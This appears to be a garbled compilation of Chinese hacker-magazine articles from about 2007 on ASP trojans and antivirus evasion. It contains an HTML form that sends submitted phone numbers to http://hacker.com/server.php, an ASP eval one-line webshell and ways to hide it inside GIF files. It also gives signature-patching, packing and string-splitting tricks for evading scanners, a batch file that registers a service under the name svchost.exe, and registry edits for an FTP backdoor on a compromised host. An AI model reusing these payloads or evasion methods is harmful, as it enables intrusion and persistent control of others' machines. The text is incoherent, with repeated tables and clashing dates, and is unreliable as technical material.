完成操作后，点击“文件”菜单中的另一个，将它更名为`Server.csv`，然后将其粘贴到桌面上的文件夹，替换原来的`Server.csv`。


### 2. 创建服务器资源“母体”

如果用户觉得服务器配置比较复杂，我们可以这种方法学会创建免费的资源，不需要麻烦。

### 露云已过期教程（狐狸）

第一次获取的短链接是有效性的，一般过了几天就不能用了，在我们这里你可以创建一个简单的万能脚本，可以随时生成新的短链接。我们这里通过`http://hacker.com/server.php`，通过脚本来自动发送短信这种可以像“这样”，最合适的方法就是让我们从服务器中获取中间参数。

### 泛一的短链接

```html
<html>
<body>
<form action="http://hacker.com/server.php" method="POST">
<input type="text" name="手机号" placeholder="mobile">
<input type="hidden" name="id" id="idget" value="">
<div style="padding:5px 2px 5px 2px; font-weight:bold; font-size:100%">
  <input type="submit" value="提交">
</div>
</form>
<script>
function submit(id) {
  document.getElementById('idget').value=id;
}
</script>
</body>
</html>
```

现在，我们这里看到了一个页面，手机号处填写要发送的短信？打开后在页面上填写手机号并发送，速度非常快。我们还加上了每条短信新的链接，但是很简洁过去的路径后，发现已经没有记录了，这里不是大家，可以从中想一下之前的内容，方便一下的工具了。

# ASP马渗透的研究

我们中很少有人对“免杀”常有共鸣，对于免杀，我们也经历多次了。对于编写脚本语言，很多人还处在进阶阶段，为了准备了这篇文章，希望大家解决对脚本语言的疑惑。现有的渗透条件已经超出了预期，国内的黑客、金山、国外的McAfee、毒这几个软件把我们的马无言地挡在了门外，测试没出来，又出来一个`ASP安全手`的工具，利用漏洞再配合多种脚本语言，马通过渗透进入系统，所以我们编写的脚本是我们可以用精巧的方法打开它的。

## 字符解析攻击(LLTF)

来试过：

1. 用数据库查询一句话

我们就可以建立一个数据库，建立一个字母，在其中加入一句话`<% eval request("#")%>`所示。


图2

我们通常研究一句话，都会发现思路，发现不通，我们不得不痛苦尝试。首先看着一句话，是我们的三个小马。然后我们将后转为ASP作为代码，此时ASP的客户端进行连接，测试正常使用，如图所示。

```
1. SCRIPTLANGUAGE="JAVASCRIPT"
<% eval(request("#"))
```


我们将三个语句在同一个文件内执行了，这就是LLTF攻击，利用李库、金山、McAfee等进行查询，发现这几个特殊字符是不被拦截的，高兴了。我们用`ASP安全手`来进行渗透，得到了图1！结果：

用`ASP安全手`去进行渗透，发现：

## 一句话渗透


图1

### 一句话渗透（Unicode构造一句话）

你现在还安全吗？只要拦截它，稍微偏移一点的ASP安全就会把它的后门无情地删除。如果用一句话马我们可以尝试以下方法：

2. 用Unicode构造一句话

用ASP的脚本构造一句话，有点意思，想的思路就是看着构造一句话的变形，这样能把ASP安全转化为Unicode，这种核心的，这就是一个一句话后再用数据库。


图5，所示，ASP

数据。保存为ASP，用如下客户端连接，提交数据。


### 3. 利用BLOW文件

在尝试的过程中，我们发现可以下载对方文件。如此，我们就能下载它，在浏览器中访问将会得到结果，如图所示。用手机助手查询漏洞时，我们看到页面，如图所示：


图6

```
cmd.exe -execute http://192.168.1.1/test.php 2023-06-19 03:42:16
```


图7

### 4. 利用小漏洞获得木马到asp文件

这个漏洞被触发后，发现也可以利用它来隐藏自己的马。这个文件方法是SQL注入，写入`.asp`文件，然后写入木马，就可以执行。下面用`bin.asp` copy到了asp文件，图10所示：


图10

再次使用“手机助手”查询漏洞，连接成功！图11所示。


## 构造漏洞成功

我们还可以尝试一种，把木马以十六进制的格式写入GIF文件中，然后使用`#include file="XX.jpg"`来执行。具体来说，我们尝试了多次，最后使用`URLDecode`打开asp文件，然后选择第三个，再用一段`eval request("#")`转换为十六进制执行，最后拼接GIF文件，结果如如图12所示：


图12

我们把这个GIF文件下载为`add.jpg`，新建一个ASP文件名为`client.asp`，并在其中加入了`#include file=".asp"`。发现这种方法可能木马正常运行，但是它绕过了防火墙，如图13所示。

## 看看防火墙发现了什么

的过滤器试图拦截ASP代码，一些代码被拦截了。形式包括：JavaScript属性为系统隐藏属性，例如：asp文件被拦截。对于“手机助手”作为ASP的管理员来说，这种方法可能会引起服务器的崩溃，还是一种漏洞。然而在在这种特殊的操作下，我们的木马能够被拦截？

在再次尝试找到漏洞时，其中一个属性为系统隐藏属性，可以利用这个属性。另一个是比较深入的技巧，把木马放在过去可以执行，但是它的代码会被拦截了。另外还有系统报错了一句`ENCODE`字符来说工具，不过这种方法。

www.hacker.com

2007年 网络安全技术 版权所有

对应的`classid`;`wscript.shell`(和其对应的

`classid()`、`"execute"`、`vscript`

`javascript.Encode`;`create object` 除非外部程序

对使用中使用函数包含ASP的文件来说，只需要我们

ASP脚本代码中特征和特征，则扫描。

## 针对MySQL的攻击方法

下面分析漏洞方法要使用哪些ASP脚本工具

选择：

- 1、A：将文件后缀改为`.2000asp`

如果你的服务器具有权限，则可以增加漏洞的危害。

具体的特征是

选择属性 - 特性

点击重命名 - 应用

重命名顺序 - 扩展名

如第15页所示。

所示：

在可执行文件中重命名后缀，例如这里改为“`ttft`”。

在对应的系统上运行它，`C:\Windows\system32\netinf.asp`

双击就会执行，然后

我们用ASP脚本后名为“`ttft`”成功

的，如第16页 所示。


此时我们使用专业工具查看，已经没有报错了。

对于Windows2003系统，如果IIS有特殊属性

`Hba`、`Ahas`文件，我们将我们的ASP脚本改名为一个比较明显的

后缀，将其改为`.sys`；如第17页所示。

- 2、针对MySQL的上传攻击

对于ASP脚本代码中没有`wscript.shell`、`shell application`、`Scripting.FileSystem`和`Wscript`相关的特征

代码，我们可以通过这种方法来实现。

原始代码使用`createobject("shell.application")`，我将其改为`server.createobject("ttft"&"11 application）`，使用`createobject("script")`和`CreateObject("wscript"&"good"&".it")`，由于拦截的ASP


马之后，此文件就不会被扫描了。而是我写了一个代码

采用`replace`函数来处理，程序需要几个函数来处理

由于函数的随机，每次执行的结果相同，每个

文件都有自己的特征，可以达到规避的效果。

## 正则表达式

我们使用IIS2006系统进行测试。

- 1.只需要这个文件，把它们都改成古代，因为

某些参数会被视为特征。我们没有

拦截，如第18页所示。


- 2. 修改，用查找替换的批量功能将`PageName`换为`html`，然后将`showLogin=constLogin`

`www.hacker.com` (黑客国内版)

# HACKER TOOLS ATTACK DEFENSE

- 3. 修改，用查找替换的批量功能将`PageName`换为`html`，然后将`showLogin=constLogin`

都报了。

- 4. 

```xml
<object result-id='id1' type='code' class='collapsed'>
7C2C4D37-D7A0-43E8-B4A2-94F8B9AFB6</object>
<object result-id='id2' type='code' class='collapsed'>
D03B43E0-F093-11CF-B800-AD00654CC2</object>
```

- 防止：

  - 1) 文件免杀/ 修改特征/ 加密

  - 2) 内存免杀/ 修改特征。

  - 3) 如何免杀

加壳病毒常用的技巧，加壳处理可以免杀加密（即使用混淆、代码之类的无意义的方法）可以让杀毒软件无法检测，混淆可以对加壳进行加壳。我们可以手工用跳转到去壳，病毒就是`NOP`（汇编的空指令）的跳转以及一种免杀，再通过`JMP`（汇编的无条件跳转）到入口，运行完后跳转到下方。

一个例子说明了去壳免杀，如图1所示。

这是壳服务器端的入口，一层免杀，内存由于是`004D0443C,D07D3`，我们就用最简单的跳转来过。

## 免杀技术

读者：朋友们，木者 文/US


首先要讲一类免杀病毒的原理，当免杀对查找要求采用特征免杀和行为检测中，其中一个特征免杀方法，对于文件和内存免杀，杀毒软件通过内存特征定义一种病毒加载到内存后，运行后再扫描的操作。这就是第二种技术，用新的加密来免杀特定的病毒会有特定的类型，以为行为免杀。这种已经绕过了免杀工具。

- 5. 对用`Encode`加密，并保存为`ASP`文件。

- 6. 打开浏览器，新建一个图片，然后保存为`Gif`。

- 7. 执行后，用可能的免杀方法，执行如下命令：`code my /gif /f4_attack`，成功绕过了壳。到此病毒免杀木马打成功了。

加密方法，如果你想要用指令，大家可以自己编写，如图2所示：

| 地址 | 指令 |
| :--- | :--- |
| 00405070 | pop |
| 00405071 | mov |
| 00405072 | mov esp, esp |
| 00405073 | 66 FF |
| 00405074 | 68 00000000 |
| 00405075 | 68 00000000 |
| 00405076 | 68 00000000 |
| 00405077 | push <JMP.CRYPT_handler_handler> |
| 00405078 | push eax, [esp] |
| 00405079 | 68 00000000 |
| 00405080 | ret |
| 00405081 | 50 |
| 00405082 | eb |
| 00405083 | ret |

图2

| 地址 | 指令 |
| :--- | :--- |
| 00405070 | pop |
| 00405071 | mov |
| 00405072 | mov esp, esp |
| 00405073 | 66 FF |
| 00405074 | 68 00000000 |
| 00405075 | 68 00000000 |
| 00405076 | 68 00000000 |
| 00405077 | push <JMP.CRYPT_handler_handler> |
| 00405078 | push eax, [esp] |
| 00405079 | 68 00000000 |
| 00405080 | ret |
| 00405081 | 50 |
| 00405082 | eb |
| 00405083 | ret |

图3

`push eax`;等跳转到免栈`push eax`;等跳转到免栈进入程序免杀指令`NOP`填充，绕过跳转地址`00004043C`, 写入跳转地址

| 地址 | 指令 |
| :--- | :--- |
| 00405070 | pop |
| 00405071 | mov |
| 00405072 | mov esp, esp |
| 00405073 | 66 FF |
| 00405074 | 68 00000000 |
| 00405075 | 68 00000000 |
| 00405076 | 68 00000000 |
| 00405077 | push <JMP.CRYPT_handler_handler> |
| 00405078 | push eax, [esp] |
| 00405079 | 68 00000000 |
| 00405080 | ret |
| 00405081 | 50 |
| 00405082 | eb |
| 00405083 | ret |

3所示，写入免杀指令`NOP`的跳转到入口以及跳转到入口的指令。

图4如图4所示。

《黑客防护》2007 华年书上海

把加密后的代码替换，用`PE`还原把入口修改为新入口`00004043C`创建就完成了，执行时将从新入口开始，执行后再将其还原回原始程序，额外添加后缀即可。由于这种方法是可靠的。

## 2特征标识

可以用任何一款软件就可以了，但是也有比较危险的特征，比如用`MyDump`（卡比软件）还可以直接搜索特征的破坏，这时用`MyDump`就能找到特征了，修改时要将找到特征标识后，要定位到特征的位置，这就是一个符合特征的方法即可。

特征标识定位通常有两种方法：特征一、特征二。直接修改特征一，用一个特征标识来替换掉，把码改成100字符从0-10字节修改，保存，用特征一修改后，发现特征码变成了`000000000`，保存。直接修改特征一，特征标识是简单的，通过文件特征（或字符串）这种方法使用的是特征标识，文件特征或`CCL`这种方法就是用的特征标识，通过这种使用方法来定位的，每次特征标识都需要在里面查找，如果特征太大，生成文件就会变得臃大，每个人都要花费很多时间了。由于其中有一个如此大的特征，其实很难找到一个特征（某些特定的特征标识是没用的，第三种方法将特征），杀杀是不用的特定的特征标识，比如，这里的特征一是不用的，特征二只需要一个特征方便，如果加上范围后两次修改就能定位到位置，如果知道位置的话，根据特征标识来定位，那么属于特征二有用之地。

特征二使用的原理是半式的。特征二方式通过两个特征来定位，将特征分成两部分并生成特征A和B，其中A生成的特征是后部分的，B生成的是，从头开始生成特征（如果已经找到了，就可以从头开始定位到内容）。

- 1. A特征：这种特征说明文件中已经被识别，将特征分成两部分，从头开始为A的部分。

- 2. B特征：这种特征说明文件中已经被识别，将特征分成两部分，从头开始为B的部分。

- 3. A特征：这种特征说明文件中设置了A和B，没有特定的特征，通过A和B分为定位。

- 4. B特征：这种特征说明两个段之间存在特征，通过特征再一分为定位对A划分时原来的区域块为`00`，相对于，对B划分时考虑到区域，对B划分时考虑到区域。

特征二的区别。

加壳病毒常用的技巧，加壳处理可以免杀加密（即使用混淆、代码之类的无意义的方法）可以让杀毒软件无法检测，混淆可以对加壳进行加壳。加壳处理使用加密技术来免杀，我们可以手工用跳转到去壳，病毒就是`NOP`（汇编的空指令）的跳转以及一种免杀，再通过`JMP`（汇编的无条件跳转）到入口，运行完后跳转到下方。一个例子说明了去壳免杀，如图1所示。这是壳服务器端的入口，一层免杀，内存由于是`004D0443C,D07D3`，我们就用最简单的跳转来过。

特征码的定位是非常关键的，可以使用`MYCALL`的技巧来定位，然后进行修改，用汇编技巧，可以定位。对于特征码较小的文件，可以使用替换的方法，比如直接修改内存中的，也可以使用其他技巧，比如定位准确的特征码（将其作为目标），如果定位不准确，那么程序就会崩溃，或者修改后无法正常运行。总之，无论用什么方法，定位都是准确的。用汇编自动定位，如果特征码足够复杂或者多个特征码时，可以使用`DLL`调用来定位。

## 3. 特征编码

特征编码可能需要一些常识，这里有很多用的汇编技巧，关于特征编码的修改，主要要有修改和特征转换两种方法：

直接修改特征的方法就是修改指令，比如

`add eax,0x55` 替换特征码，这种修改指令不影响特征的效果，如下：

`add eax,0x55` 替换特征码后再替换一个，如

`add eax,0x55` 替换特征码后可以修改为等于：

| 地址 | 指令 |
| :--- | :--- |
| 13140a2 | |
| 13140a3 | |
| 13140a4 | |
| 13140a5 | 55 89 ec push ebp |
| 13140a6 | 8b 45 24 mov ebp,esp |
| 13140a7 | 50 58 push esi,push ebp |
| 13140a8 | |
| 13140a9 | |
| 13140ab | |


`add eax,0x55`替换特征码是不可能的，可以修改为小字母改成大字母，例如，如图5所示。这种替换的方法主要是，把特征替换为`NOP`，把`NOP`的特征替换成空字节`00`。

| 地址 | 指令 |
| :--- | :--- |
| 131403c5 | 90 ret |
| 131403c6 | 90 nop |
| 131403c7 | 90 nop |
| 131403c8 | 90 nop |
| 131403c9 | 90 nop |
| 131403ca | 90 nop |
| 131403cb | 90 nop |
| 131403cc | 90 nop |
| 131403cd | 90 nop |
| 131403ce | 90 nop |
| 131403cf | 90 nop |
| 131403d0 | 8b 13 mov ed, [ebx] |
| 131403d1 | 85 c0 test eax |
| 131403d2 | 74 08 jz |


假设的`1314dc58`到`1314dc7`是特征码，那么就可以用特征码处理了。这里介绍如何跳转，用`NOP`跳转，如图7：

| 地址 | 指令 |
| :--- | :--- |
| 1314dc58 | 90 nop |
| 1314dc59 | 90 nop |
| 1314dc5a | 90 nop |
| 1314dc5b | 90 nop |
| 1314dc5c | 90 nop |
| 1314dc5d | 90 nop |
| 1314dc5e | 90 nop |
| 1314dc5f | 90 nop |
| 1314dc60 | 90 nop |
| 1314dc61 | 90 nop |
| 1314dc62 | 90 nop |
| 1314dc63 | 90 nop |
| 1314dc64 | 8b 13 mov ed, [ebx] |
| 1314dc65 | 85 c0 test eax |
| 1314dc66 | 74 08 jz |


在下面找到一段0000区域下的特征码：`1314cef`，特征码：

| 地址 | 指令 |
| :--- | :--- |
| 1314cef0 | db |
| 1314cef1 | db |
| 1314cef2 | db |
| 1314cef3 | db |
| 1314cef4 | db |
| 1314cef5 | db |
| 1314cef6 | db |
| 1314cef7 | db |
| 1314cef8 | db |
| 1314cef9 | db |
| 1314ce00 | db |
| 1314ce01 | db |
| 1314ce02 | db |
| 1314ce03 | db |
| 1314ce04 | db |
| 1314ce05 | push eax |
| 1314ce06 | push esi |
| 1314ce07 | push ebp |
| 1314ce08 | mov ebp,esp |
| 1314ce09 | push esi,push ebp |
| 1314ce0a | mov ed, [ebx] |
| 1314ce0b | test eax |
| 1314ce0c | jz 05 |

最后的特征跳转加入一个`JMP1314cef`跳转。

# HACKER TOOLS ATTACK& DEFENSE

可以加密的小工具`exe`运行后，然后进行扫描、`Winhex`/

病毒使用第16轮加密后并运行，试图修改文件、注册表。

通过这种活动后，汇编就开始尝试运行并试图感染主机。

文档、修改监控的记录来修改的文件、注册表。

病毒感染可能是哪个行为，那么对相应行为为到病毒的行为。

这个简单的办法，如果病毒不是会系统的问题的，如果你用木马的病毒编译成程序必须的文件并对其修改，就成功了病毒的方法，你就可以修改它了。

不用了？用工具君加密，病毒的原理是将程序加上一个加载程序，具有保护和加密功能，运行后真实的文件会先运行真实文件，那么并保护操作。

我想提醒大家的是，病毒的人多了，还有很多盆底的，如果可以努力学习，自己去外外的网站看看比较好了。

## 1. 修改加密后的文件

以前加密后头部会有一个特殊的特征码，你可以用打开工具去查看加密过的文件，你发现并不是头部开头而是特征码。对于病毒的木马可以加密特征，为了安全，可以修改病毒的特征码，也是为了我们自己，可以从病毒源代码来修改，而是让它变成可以工作的，那么你只需要一种修改方法，可以去回到工具加入它，在空间区域加上特征码了。

上网病毒的办法，就是用`Dxor`把木马入口加密，1、有它也是可以实现后病毒的。

虽然老老的病毒特征码是不重要的，但是，通过修改老老的木马源代码，对于它，木马是病毒的，特征码经常变化，改了就没法运行了。

还有一种方法可以修改病毒的办法，用`MD`找到病毒文件，可以发现`PE`的特征码，也就修改加密入口地址，就可以实现后病毒的效果，如果你的是`eloc`（在外的网络提供提供的），如果你在国外没有被放在这里，那么使用自己的工具就可以加密到Google。2016。

一般步骤是先定义一个特征码，修改特征码文件，如果发现自己被特征码修改了文件特征，再次修改特征码，只要一运行后，没有报错，你的特征码就没有问题了。如果你的特征码真的是病毒的特征文件（比如一号的），加入一个木马卡包里，注入的特征文件一没有二的修改就可以加密了，注入的特征文件就可以特征码病毒加密成功了。

这种病毒的加密是底层的PC加密。一般的来说，是在运行以后会被木马系统下载以后，原文件可以自动删除。这样木马就会通过网络连接到你的电脑在的里如果没有被插入的病毒后，设置电脑后可以是木马是必须的，要加入注册表，木马、运行活动等这些对于木马是必须的，我们可以加入注册表了。

对于特征码修改特征码在文件的里面，用这种办法可以修改病毒，如果`PE`特征码一修改后报错了但是可以修改`PE`，不需要报错，如果非修改成功，再次修改特征码，只要一运行就可以加密了，那么你的特征码真的是病毒的营养加密成功了！

这篇讲解了病毒加密的原理和理论的方法，以及一些自己的心得，并没有实操的实例，因为我们来说理解原理是最重要的，如果你有这样的你才可能有很大的收获，想要写出更多病毒的方法。

对于木马技术来说，最重要的是如何编译木马以后，其实这种方法是非常重要的方法。很多工作可以修改特征码了，以后木马就是，就不是木马一个“伪装”。


# Fake Ninja

最近我发现了一个伪装`Exe`文件的工具Fake Ninja 2.68，还有关于木马对运行的。

演示一下，先用卡巴扫一下，有没有？1示！选择运行，关掉它以后，省得吧事哥，在好的地方用Fake Ninja 2.6不过了，这里

我这就要使用的木木工具`exe`例子为了蝴蝶 butterfly 邮箱 `butterfly@hacker.com.cn`。

# 卡巴斯反病毒扫描信息

什么是反病毒扫描对象？

对象：`C:\Windows\System32\Ninja.exe`

特征：`Hacker.Ninja.Agent` 病毒此特征

状态：已发现

未发现病毒，可以对文件进行处理（已处理）

病毒：已删除

操作：删除

图1

之前先确认要处理的程序无壳，`PeID`查一下，如图22所示：

`PEID`：`v0.93`（汉化版）

| 文件 | `Ninja.exe` | 区域 | All |
| :--- | :--- | :--- | :--- |
| 文件类型 | PE32 | 编译器 | Microsoft Visual C++ |
| 文件大小 | 0000000 | 创建日期 | 2006-05-16 |
| 加载时间 | 00:00:00 | 系统 | Windows |

知道程序无壳后，再打开 Ninja 2.6如图3所示。

## Fake Ninja 2.6 by Spirit


图3


# HACKER TOOLS ATTACK& DEFENSE

适合：读者、黑客爱好者、新手前置知识

点击`START GAME`中我们要处理的文件，也点击`ftp.exe`，然后请注意下方的游戏：choose your destiny.这里的选项是各项的我，说过的和听过的这个程序没好了，图4所示。我运行了`Ninja 1.02 -> random, kill`最后看到`FATALITY`提示，如图5：这里一个小窗口，一直是32KB，实际上此程序已经结束了，用卡巴去壳，如图6，这里的点几个了找到，杀死杀它。再用`PeID`查，已经发现我们才找到了。


图4：大家一定有很多程序等看壳，再先就程序加个壳，这样加壳可以检测很多壳软件。实际上这个顺序的操作不仅花壳，还可以加密的信息。


图5：在壳后加壳

| 字段 | 值 |
| :--- | :--- |
| 已修改日期 | 1 |
| 创建时间 | V |
| 模块 | 0 |
| 资源 | 0 |
| 属性 | 0 |

图6：对于朋友来说，如果想保护自己辛苦成的成品，只用这个工具把自己的程序装一个很酷的，如果是Cracker用`PeID`的壳，那么加入破解的病毒，对于朋友来说，你们在破解别人作品时不要轻易用壳，如果遇到壳了也不要破解，最后是不被破解过，这样只是方便它的。www.hacker.com.cn 版权2007华聚软件所有

## 生成无壳版软件

文/图奥黑客在生成程序时通常会被主程序处理，而且是强制性的、一点小的流量都不会过的，我们告诉这些哥自己做加壳的程序就被拦截了，先用自己的防壳来不好呢，在它之前运行一会儿就长的病毒可能不像呢？很多情况下，程序的防壳处是不够的，任何加壳文件的形式都是主程序中的，其中当配置主程序才能拦截并处理加壳的信息，主程序再通过相同的防壳形式后存在通过程序进行处理。例如，我们就用“插入壳（版本A）”来举例子。我们是`NePack 1.4`，一个老版本的壳了，就可以用ID的通用壳程序，然后我们就可以尝试用Delphi编写的壳程序；

- `QEXFIL`
- `GD01`
- 选项
- 图表
- 对接
- 字符串
- 列表
- 框

## 方法一

因为对程序的文件都是通用的所以这种加壳的形式存在主程序中，我们可以直接在加壳处直接修改它：

```
GD01
GD01
GD01
```

看着我们的界面，第一个Explorer程序中有3个文件，我们看它


用通用壳下载一下这三个文件，通用壳`EXE_GD01.exe`、`EXE_GD03.exe`这两个文件是服务程序，当`GD02`就是我们通用的加壳程序，我们只需要把它们处理运行，不需要额外调试；如果运行失败了，我们用`ResScope`重新加载程序并编译。


## 方法二

因为我们已经找到壳的位置了，现在我们可以直接修改它，把壳替换成用`ILife`已经加壳了我们壳的“插入壳（版本A）”的主程序，此作为为主程序进行加壳程序就可以通用`WinExc`，然后；`CreateProcess`，我们就可以在这里点一下下载（插入程序壳的`WinExc`），然后再找到壳的位置，插入我们程序的“插入壳”后，重新运行`WinExc`，修改`edi`，在编辑器中我们可以看到：


`TinyShell`保存自动修改的加壳程序，这样就不会被主程序运行了，而是所有的加壳文件变成了一个空。

```
004C0A000000000
004C0A000000000
004C0A000000000
004C0A000000000
```

这里表示`004C0A00`调用到`WinExc_line`所需的参数，`ShowWindow`是显示式的，我们在重新加载后，按`Ctrl+G`找到`WinExc`，跳转`004C0A00`执行文件，可有修改，修改后保存即可。

HACKER TOOLS ATTACK& DEFENSE

©2021-butterfly@hacker.com.cn

```
0401000  push ebp          \mov [esp],ebp
0401005  push 44          ;跳转到程序的eep
```

`040105`再次在特征点点击跳转，使用`ODump`调试后，将内存保存为`2.exe`，此时的`2.exe`还能正常运行，如果我们需要输入，用`PEG`复制它进去运行，用`2.exe`执行剩余的函数`040102B`再次在特征点点击跳转，使用“`IAT`”搜索，在`0`标识处，点击“导出`IAT(A)`”、“定位”、“显示无关”，在点击点找到没有跳转的指针，最后点击`Dump`，保存为`Dumpexe`，这个程序就是无壳的。后我们发现这个包文在主函数中挂接了被覆盖了，所以最后的函数就是无壳的，这还需要一遍。如果对无壳的程序进行壳，要保留原始变量，否则就不能运行了。为了我已经在文件中查看过了，在`2.exe`执行适合初学者想要完成前置条件如下：

## VIP学会实成果：非黑壳制作


图 / 来源：VIP 风云等

现在的越来越多的杀壳软件把码当成黑，黑壳列表为一系列的列表。初学者想要在感兴趣时不被不力困扰，如果不靠调试就能在主机的上找到漏洞，利用的调试工具成功把病毒上到机器后，或者在肉程序执行完黑壳之后，或者在主机上自动安装杀壳触发了，我们就可以把杀壳提取出来，“病毒”剥掉了对于被加壳的杀壳，我们需要对程序进行分析其特征是破解加壳技术，病毒的原理，以及之后的特征来找到杀壳的特征，这样我们就可以防御此类加壳的程序，通过加密以及加壳的技巧和加密技巧来应对，相对的方法对初学者想要学会黑壳来说，越感兴趣越能心力从

## 《让百发传输无限制》

百发传输本身是网站提供的好工具，但是它的服务端是`itsg 2.0`加密过的，我们再想用它它的服务端就很困难了，因为服务端被加密之后，用`OD`连接就会无法运行，现在想连接它不受限制了，钓鱼不如人以渔。第一落一下，用免费软件下载一份文件去配置服务器的程序，不要重新配置是好的连接后再查看，看到结果是`UPX0.89.6./05-24 (Delphi) - Markuslo`，看到后再用`OD`连接，首先来到这里：百发传输无限制

```
00000000000000000000000000000000
00000000000000000000000000000000
00000000000000000000000000000000
00000000000000000000000000000000
00000000000000000000000000000000
00000000000000000000000000000000
00000000000000000000000000000000
```

`PE Payload1.exe`，结果`FSG 2.0x`，我们现在来连接，用`OD`下载它，首先来到这里弹出对它没有什么办法了，大家一定要小心心痛，不要把自己的交给骗骗！

## 《黑客手册 HACKER TOOLS ATTACK DEFENSE》

在马上成功安装服务端，从可以看出，本软件包的没有特殊参数，直接连接。接下来，新建创建一个文件，把目录下的所有文件拷贝过来。

| 属性 | 值 |
| --- | --- |
| 路径 | `C:\Windows\System32` |
| 文件名 | `svchost.exe` |
| 扩展名 | `.exe` |
| 类型 | 应用程序 |
| 权限 | 读/执行 |

图1：`svchost.exe` 的隐蔽性增强了后端特殊性，同时为了防入，我们把一个文件重命名为`.bat`，其内容如下：

```bat
@echo off
@sc create Driver binPath="%SystemRoot%\System32\svchost.exe" displayName="DriverServer"
@sc start DriverServer
```

上述处理的方法就可以写了。最近发现的漏洞，这里需要注意的是：一定要在注册表里添加一个唯一的名称，这样的执行完成后同时要注意等号后有一个空格，工作完成后将该文件打包成：

```text
Path=%SystemRoot%\System32\Driver
Save=auto
Start=0
```

现在的工作已经完成了。通过创建的压缩包到马上运行，然后尝试一下可以了吗？这个问题了我们在马上已经设置了这个程序，然后再对其处理。该如何执行到位？连接到马上可以用Windows自带的桌面连接），也可以用它远程控制，如admin的功能流量最大。准备好过后，切换到`%SystemRoot%\System32`目录下运行“`ipconfig`”，如图所示。


图2：不用多，也可以从图中的提示看出它是用的配置，管理FTP端口，再运行`ipconfig`如图所示。


图3：根据我们的提示可以看出管理FTP的端口怎么办呢？这个程序认为21端口，万一安装FTP软件又占用了21端口怎么办？我们可以在注册表修改，如果是21端口，可以设置两个端口来获得两个的成功。哦，我没有办法，只能到本地，使用注册表编辑器找到，如图所示。


图4：在输出的界面中就可以修改端口了，我用的21端口，将将其修改为21端口之后运行打开注册表编辑器，修改`HKEY_LOCAL_MACHINE`一个键值名称，如果12就是我们需要的那么用`reg`命令来保存端口，并使用`reg`文件修改`%SystemRoot%\System32`目录下，使用`reg`文件的如下：

| 属性 | 值 |
| --- | --- |
| 路径 | `HKEY_LOCAL_MACHINE\SOFTWARE` |
| 键值名称 | `Port` |
| 类型 | `REG_DWORD` |
| 数据 | `211` |


图5：

```registry
Windows Registry Editor Version 5.00

HKEY_LOCAL_MACHINE\SOFTWARE\vsftpd\Ftp\Global
"Port"=dword:000000d3
```

现在成功解决了这个问题，我们在马上创建一个FTP站点。

《黑客手册》2007 华年书版 上册

根据`ipconfig`的提示，我们创建一个`localhost`站点，在这个站点创建一个`admin`的管理员，并使用导入的注册表，为了确保我们的设置生效，重新启动`FtpSvc`服务，整个过程如图所示。这样就可以不用用`admin`用户登录了。所有用户都拥有所有权限，如图12所示。此时，我们添加诸如E、F、G等文件夹，指向它们来开始。


再次登录马上，怎么样，是不是可以登录了？并且可以新建文件、上传及下载文件，如图7所示。注册并连接到：

```text
HKEY_LOCAL_MACHINE\SOFTWARE\FtpSvc
```


我们已经在马上搭建了FTP服务器。自然我们希望还可以再次下载马上不同区域的文件，可能的？再次登录时，我们将创建一个`localhost`站点，并新建一个`admin`的管理员组，如图8所示，然后添加`admin`用户到组，如图9所示。本地，如图13所示为`virtual.reg`修改注册表文件，其输出将`Dirs`和`Groups`文件夹，然后注册到马上上，并在命令行中下：

```cmd
import virtual.reg
```

重启服务，再次登录马上，就会发现我们的数据已经成功到位。


到了马上，如图14所示。到马上这里已经创建了FTP站点，它崩溃，又会被病毒感染给Kilin，还是一个。


接下来我们将再添加一个文件夹`C:\`对其进行编辑，如图所示，点击中的“添加”，赋予`admin`用户权限。当然，你可以直接切换到`everyone`拥有权限，反正马上我们自己为了方便大家，可以按照本文的步骤自己创建一个压缩，在Windows下下载。


## HACKER ATTACK DEFENSE

运行设置账号。发现更改密码，重新修改可以达到我们的目的。文件`C_D_E_G`分别介绍方面，以后自动防木马运行被修改过的文件，是不是我的文件配合修改文件和处理，通过一个通用的`FTP`程序直接连接在网络上，让自己不觉被木马化成木马服务器。我要来说“木马化”的经历：首先要在本地机器上运行脚本，找到相关的配置，修改密码、密码存储位置，这些数据是放在文档或文件中的，`pswitch.py` FTP Server有这些东西，它在修改脚本后运行，就可以在本地配置好一个`localhost`站点，并设置账号、密码、权限配置，再把注册文件输出到本地服务器中。怎么做的？通过这些实例，发现对于“木马化”的过程有了更深刻的理解了！只想把它合并到第一个文件就可以“木马化”本身，这里有希望很多同学能这样做出来一起分享，或许可以帮助大家。

```text
ftp //222 253/281/
```

| 账号 |
| --- |
| Internet Explorer |


虚之一。最后一次`pswitch.py` FTP Server是我们的重点，在此处就不赘述了，免得我说我收费“木马（毒）”，有关的，大家可以交流一下，有什么好处的，大家可以交流一下——

## 在过程中


木马是网络安全的一个大威胁，防止人们对木马的防御主要通过检测检测木病毒行为来实现，其实就需要通过分析木马的特征来确定是否为木马的，这种方法具有高度的确定性。对于入侵，通过连接到木马服务器来发送特征字符串，然后对木马进行处理，这种方法不需要加密、修改、定位修改加密字符串等复杂的操作。每个人都可以通过使用自己的脚本来获取木马特征，只需要对发送的木马程序特征字符串即可，在这种情况下，不需要修改发送的木马特征字符串就能让木马变成木马服务器了。一台服务器，一台软件包括数据包分析`Ether`、使用连接木马端口，具体环境是，一台安装Windows2003 系统，在该机器上运行木马服务器，在木马程序的连接中进行流量过滤，另一台Windows XP 系统，在交换机上连接的IP为`192.168.0.1`。对于分析木马的行为，我们构建了一个具体的实验环境，实验设备包括两台交换机、网络端口、接口。交换机连接到流量镜像到几个端口，一个上端口，在服务器上安装监听并连接镜像端口。`192.168.0.2`。实验木马端口：

对于分析木马的行为，首先要找到木马的流量，在我们两台机器上运行木马服务器的控制流量，使用抓包分析工具进行各种操作和控制，将数据包捕获并对木马程序过程中发送到网络的数据包进行处理，得到木马通信数据包后，我们就可以在抓包工具中分析它的特征，以便于

## 方法与过程

(www.hacker.com) 2007年制作 上版 木马君

马在网络环境中的种类。我们这里会在木马通过数据包，也就是在`TCP/UDP`包结构中包含`payload`部分寻找特征字符串作为标识，用于入侵检测的判定。这种字符串应该在应用程序的数据进行比较，这样可以容易发现设备对检测。所谓病毒在盛行阶段最流行的一款软件，它有很多版本，比数量多。黑病毒可以说是入侵后的收集者，通过特定的手段来实现木马移动。

病毒是在盛行阶段内著名的木马病毒`PSHARE`开始它的。通过特定的手段来实现，木马移动连接控制，受控良好的优点和复制和扩散功能，我们对203、204和205这三个版本进行了分析。在实验过程中，我们还要寻找这些版本包。


